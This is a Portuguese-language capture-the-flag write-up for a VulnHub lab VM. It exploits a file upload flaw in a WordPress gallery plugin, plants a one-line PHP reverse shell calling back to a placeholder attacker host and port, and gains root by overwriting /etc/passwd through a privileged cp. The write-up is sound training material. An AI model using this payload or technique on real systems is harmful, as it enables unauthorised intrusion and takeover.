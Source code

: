 ```yaml
---
title: Desafio 2 - VM 07
author: R3d-4rr0w
date: 2022-04-14 05:00:00 -0300
categories: [Desafio 2, Beco do Exploit, Writeups]
tags: [Desafio 2, Writeups, Linux, WordPress]
image: "/img/desafio2/becoxpl-logo.png"
alt: "Desafio2-VM7"
---
```


# VM 7 - Ha Hardy

---

## [VM 7 - Ha Hardy](https://www.vulnhub.com/entry/ha-wordy,363/)

---

## Reconhecimento:

NMAP

```bash
┌──(red_arrow㉿kali)-[~]
└─$ nmap -sV -Pn -v 192.168.56.10
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-11 16:00 EDT
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

No scan no nmap, só achamos a porta 80 aberta, que está rodando um Apache.

Ao abrir no browser,  vemos a página default do Apache.

<imr src ="/img/desafio2/vm7/hardy.png">

Vamos fazer uma enumeração de diretórios usando o FFUF.

Podemos ver que existe um wordpress rodando.

<imr src ="/img/desafio2/vm7/hardy 1.png">

<imr src ="/img/desafio2/vm7/hardy 2.png">

Olhando código fonte, vemos os plugins que o WordPress está usando.

Buscando por exploits, achamos um do reflex-gallery

<imr src ="/img/desafio2/vm7/hardy 3.png">

Olhando no diretório raiz do plugin, achamos o readme.txt.

<imr src ="/img/desafio2/vm7/hardy 4.png">

Dentro do readme.txt, vemos a versão do plugin, que é a 3.1.3.

<imr src ="/img/desafio2/vm7/hardy 5.png">

No searchsploit, existe um exploit para a versão que vimos acima.

<imr src ="/img/desafio2/vm7/hardy 6.png">

>**💡[WordPress Plugin Reflex Gallery 3.1.3 - Arbitrary File Upload](https://www.exploit-db.com/exploits/36374)**


Dentro do exploit, fala do path para a exploração.

```bash
http://192.168.56.10/wordpress/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php
```

Que ao ser acessado, retorna um erro dizendo que não tem arquivos carregados, então vemos que existe o serviço de upload e será possivel explorar.

<imr src ="/img/desafio2/vm7/hardy 7.png">

---

## Exploração do File Upload

Como não achamos o lugar para fazer o upload, no exploit tem o código de um formulário que poderemos usar para o isso.

```bash
<form method="POST" action="http://192.168.56.10/wordpress/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php" enctype="multipart/form-data" >
    <input type="file" name="qqfile"><br>
    <input type="submit" name="Submit" value="Pwn!">
</form>
```

Agora precisamos criar a reverse shell para enviar usando esse formulário.

Vamos usar uma shell simples que utiliza a função [exec()](https://www.php.net/manual/en/function.exec.php) do php.

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'");
?>
```

Vamos então abrir o formulário que criamos e fazer o upload da reverse shell no servidor alvo.

<imr src ="/img/desafio2/vm7/hardy 8.png">

<imr src ="/img/desafio2/vm7/hardy 9.png">

Ao abrir o path que armazena os arquivos carregados, que é citado no exploit, vemos o nosso arquivo.

<imr src ="/img/desafio2/vm7/hardy 10.png">

Agora vamos configurar o netcat para receber a conexão reversa e depois abrimos o código php que enviamos no browser, para termos acesso a reverse shell que enviamos.

<imr src ="/img/desafio2/vm7/hardy 11.png">

---

## Escalagem de Privilégio

Ao tentar ver os comandos que o usuário pode executar como root, usando o sudo -l, é pedida a senha do usuário, como não temos a senha vamos ver quais arquivos ele tem permissão para executar usando o find.

<imr src ="/img/desafio2/vm7/hardy 12.png">

Vemos acima que ele tem permissão de usar o /bin/cp e pode copiar arquivos como root.

Vamos usar para manipular o arquivo /etc/passwd e criar um novo usuario com privilégio elevado.

Primeiro iremos ler o arquivo /etc/passwd e copiar todo o contéudo, depois vamos criar um arquivo na nossa máquina com o mesmo nome /etc/passwd e inserir o nosso usuário seguindo o padrão utilizado pelo arquivo.

>**💡[Understanding /etc/passwd file fields](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)**


Para criar a senha, vamos usar o openssl e criar o hash no mesmo padrão do arquivo /etc/shadow que é usado no linux.

> **💡 [OpenSSL - PASSWD](https://www.openssl.org/docs/man1.1.1/man1/openssl-passwd.html)**


```bash
┌──(red_arrow㉿kali)-[~]
└─$ openssl passwd -1 -salt red-arrow frecha
```

Agora vamos inserir o usuario no arquivo, com os mesmos dados do root.

<imr src ="/img/desafio2/vm7/hardy 13.png">

Então vamos fazer o upload do arquivo que criamos para o alvo.

Podemos usar o mesmo formulario de upload.

<imr src ="/img/desafio2/vm7/hardy 14.png">

<imr src ="/img/desafio2/vm7/hardy 15.png">

<imr src ="/img/desafio2/vm7/hardy 16.png">

Podemos notar que ele está com o nome diferente, existe um ponto ( . ) no final do nome. 

Vamos copiar ele para criar um arquivo com o nome correto, sem o ponto.

<imr src ="/img/desafio2/vm7/hardy 17.png">

Agora vamos copiar o arquivo para a pasta /etc/ e substituir o original, pelo que tem o nosso usuário.

<imr src ="/img/desafio2/vm7/hardy 18.png">

Ao tentar trocar de usuário, ele da um erro, dizendo que o su precisa ser executado de um terminal.

<imr src ="/img/desafio2/vm7/hardy 19.png">

Vamos importar a shell interativa TTY, usando o python 3.

Agora podemos mudar para o nosso usuário com privilégio elevado.

<imr src ="/img/desafio2/vm7/hardy 20.png">

Podemos ver que temos acesso root.

<imr src ="/img/desafio2/vm7/hardy 21.png">

E dentro do diretório /root, temos a flag da VM.

<imr src ="/img/desafio2/vm7/hardy 22.png">